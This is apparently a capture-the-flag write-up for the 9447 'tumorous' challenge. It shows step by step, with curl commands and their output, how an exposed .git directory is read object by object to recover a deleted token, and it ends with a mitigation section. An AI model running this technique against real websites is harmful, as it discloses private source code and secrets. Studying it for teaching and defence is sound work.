 ## tumorous ##
Writeup by @cyphar.

> **NOTE**: This write-up has a certain assumed knowledge about git internals
> and how git stores data inside the `.git` directory. A good primer on git
> objects can be found
> [here](http://git-scm.com/book/en/v2/Git-Internals-Git-Objects).

### tl;dr ###
The `.git` directory for the website's repo was exposed, allowing for raw git
objects to be retrieved and files in the git project history to be disclosed.

### Introduction ###
The page linked in the challenge description has some diary-like entries (one
of which mentions git, leading to the conclusion that the website has a git
repository which we can access).

Here are the diary entries, for completeness:

```txt
13/2/2004: I learned how to html, yay!
12/4/2004: I learned how to use git, yay!
13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.
08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.
10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.
10/9/2004: I can't forget my token. What do I do?
11/9/2004: I panicked and deleted the token. It is the work of evil doers.
12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.
```

If you try to visit http://tumorous.9447.plumbing/.git/, you get a 403 error,
implying that there is a `.git` directory, but indexes have been disabled for
the web server. We're going to have to do this the old-fashioned way.

### Tips and Background ###
There are quite a few helpful files inside `.git` which make our job much
easier.

* `.git/HEAD` (teamed with `.git/refs/heads/*`) can tell you the current commit
  hash that `HEAD` points to in the local git repo.
* `.git/logs/HEAD` allows you to see the history of the `HEAD` of a local git
  repo (including commit amendments and rebases, basically this file is where
  `git reflog` gets its data from).

In addition, it is necessary to know how git stores data. Basically git (at its
core), has a hashmap of hashes to objects. Some of these objects are commit
objects (which point to tree objects, which point to blob objects -- files).

Since the "website owner" hasn't purged the commits which contain the required
file, if we can find a commit where the `token` file existed, we can get that
file.

It is also helpful to know two things:

* `gzip` can decompress `zlib` compressed data (by simply adding a dummy header
  to the compressed stream) -- this makes dealing with git commit objects much
  easier. This can be done using the command:
  `(printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; cat zlib.data) | gzip -dc`
* `git cat-file` doesn't do any sanity checks on your local git repo, meaning
  that you can create a new repo, download `.git/object` files and then use
  `git cat-file` to read them without any trouble.

### Exploitation ###

So, we need to look for a git blob object that represents `token`, when it
contained the data we want.

The first step is to establish the commit history of the repo, which can be
done with our good friend `.git/logs/HEAD`:

```bash
$ curl http://tumorous.9447.plumbing/.git/logs/HEAD | cat -v
0000000000000000000000000000000000000000 cb36b491e21091a258cb26f56f6157e31084a693 root <root@ip-172-31-5-48.ap-southeast-2.compute.internal> 1412670724 +0000   commit (initial): I'm new to this repo stuff
cb36b491e21091a258cb26f56f6157e31084a693 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a John Doe <fsck@you.me> 1412670748 +0000       commit (amend): I'm new to this repo stuff
043a18366cb0b2ab31c0f9b14a755a8e597a8b6a 3dbda5576912236328494b11f9361dca66c0218a root <root@ip-172-31-5-48.ap-southeast-2.compute.internal> 1417231293 +0000   commit: My token now exists!
```

The commit "3dbda5576912236328494b11f9361dca66c0218a" looks like the best bet
(given the commit message). This hash is the hash of the commit object, which
contains a link to the tree object (and thus to the blob data at that point in
the git history for the repo, thus it contains the contents of the `token`
file).

> **NOTE**: For several reasons (IIRC, the main reason is that filesystems don't
> handle huge numbers of files in a single directory -- due to cache misses and
> hashmap-related issues) git stores its objects in a series of folders under
> `.git/objects`, where the object's hash is split such that the first two
> characters are the directory under `.git/objects` and the rest of the hash is
> the filename.

```bash
$ (printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; curl http://tumorous.9447.plumbing/.git/objects/3d/bda5576912236328494b11f9361dca66c0218a) | gzip -dc | cat -v

gzip: stdin: unexpected end of file
commit 285^@tree 97d2ea0a2433ecc3024674b1d1ab18661c99b0fe
parent 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a
author root <root@ip-172-31-5-48.ap-southeast-2.compute.internal> 1417231293 +0000
committer root <root@ip-172-31-5-48.ap-southeast-2.compute.internal> 1417231293 +0000

My token now exists!
```

So the tree object for that commit (ignoring the erroneous `gzip` errors) is
"97d2ea0a2433ecc3024674b1d1ab18661c99b0fe". So let's try doing the same trick to
that object.

```bash
$ (printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; curl http://tumorous.9447.plumbing/.git/objects/97/d2ea0a2433ecc3024674b1d1ab18661c99b0fe) | gzip -dc | cat -v

gzip: stdin: unexpected end of file
tree 71^@100644 index.html^@;M-:`M-oHWM-^M^F^YM-/M-pgM-GM-vYl^T&M-NM-^V100644 token^@^M/M-NF#M-*M-^LM-XM-|M-*M-iiM-IM-/LsM-`M-4M-?M-``
```

Disaster! You can see that the object refers to the elusive `token` file, but
we can't extract the hashes as easily as we did before. Turns out, git stores
the hashes of the blob objects pointed to by a tree objects in a binary format.
So we're going to have to either:

1. Download the object, then manually work through the object's data with a hex
   editor (or just `hexdump -C`) to figure out the hexadecimal representation of
   the hashes; or
2. Download the object into a git repo and then use the specifically designed
   `git cat-file` to extract the information.

Since 1 would be a major PITA, we went with 2. So you just need to make a new
repo, drop in the object data and then use `git` to parse the file for you.

```bash
$ cd $(mktemp -d)
$ git init
Initialized empty Git repository in [temporary directory]
$ curl -o .git/objects/97/d2ea0a2433ecc3024674b1d1ab18661c99b0fe http://tumorous.9447.plumbing/.git/objects/97/d2ea0a2433ecc3024674b1d1ab18661c99b0fe
# [... snip ...]
$ git cat-file -t
$ git cat-file -t 97d2ea0a2433ecc3024674b1d1ab18661c99b0fe
tree
$ git cat-file -p 97d2ea0a2433ecc3024674b1d1ab18661c99b0fe
100644 blob 3bba60ef48578d0619aff067c7f6596c1426ce96    index.html
100644 blob 0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0    token
```

Okay, so now we know the hash of the blob object that represents the contents
of `token` at that point in the git repo's history --
"0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0". So now all we need to do is read
that file and we're done.

```bash
$ (printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; curl http://tumorous.9447.plumbing/.git/objects/0d/2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0) | gzip -dc | cat -v

gzip: stdin: unexpected end of file
blob 35^@9447{IM_SITTING_ON_A_PILE_OF_GOLD}
```

Boom! So the flag is `9447{IM_SITTING_ON_A_PILE_OF_GOLD}`.

### Notes ###
* You couldn't clone the repo over http (or at least, we couldn't -- some other
  teams managed to), hence all of this dark magic was necessary.
* @cyphar remembered how horrible git's source code is while trying to reverse
  engineer `git cat-file`, so that we didn't have to download the objects and
  defile an innocent git repo (he failed and got PTSD from it).
* You should switch to mercurial if you intend to hack on your version control
  system, while retaining your sanity and faith in humanity.

### Mitigations ###
If you don't want people to read the history of your git repo, don't make it
publically accessible. And no, turning indexes off doesn't make any difference
whatsover (AFAIK git doesn't internally use any filesystem traversal magic,
it only uses links and references to data to build and store graphs).
